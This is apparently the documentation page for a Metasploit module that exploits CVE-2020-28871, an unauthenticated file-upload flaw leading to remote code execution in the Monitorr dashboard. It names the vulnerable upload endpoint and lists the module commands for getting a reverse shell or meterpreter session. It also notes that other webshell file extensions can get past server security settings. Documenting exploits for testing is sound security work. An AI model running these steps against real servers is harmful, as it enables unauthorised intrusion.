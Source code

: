 ## Vulnerable Application

This module exploits an arbitrary file upload vulnerability (CVE-2020-28871) that results into an RCE in Monitorr,
a web application that allows you to setup a dashboard to monitor various web site/web application up or down state.
All versions including `v1.7.6m` are vulnerable and no patch is available.

The vulnerability occurs due to a lack of appropriate validation when uploading a malicious `GIF` file with
embedded PHP code to the `assets/data/usrimg` (Linux) or `assets\data\usrimg` (Windows) directory on the web server
using the vulnerable endpoint `/assets/php/upload.php`. Once uploaded to the server, depending on server configuration,
the attacker can access the malicious `GIF` file via HTTP or HTTPS, thereby executing the malicious PHP code and
gaining access to the system.

This vulnerability does not require authentication and any remote attacker can exploit this vulnerability to gain
access to the underlying operating system as the user under which the web services are running (typically `www-data`).

Installing a vulnerable test bed requires a Linux or Windows machine with the vulnerable Monitorr software loaded.
Follow instructions [Monitorr Install](https://github.com/Monitorr/Monitorr/wiki/01-Config:--Initial-configuration),
to install the Monitorr application either on Linux or Windows.

This module has been tested against a Monitorr installation with the specifications listed below:

* Monitorr
* Version: `1.7.6m`
* Linux OS: Ubuntu 22.04
* Windows OS: Windows Data Center 2019

## Verification Steps

1. `use exploit/multi/http/monitorr_webshell_rce_cve_2020_28871`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command, 2-Linux Dropper, 3-Windows command, or 4-Windows Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.
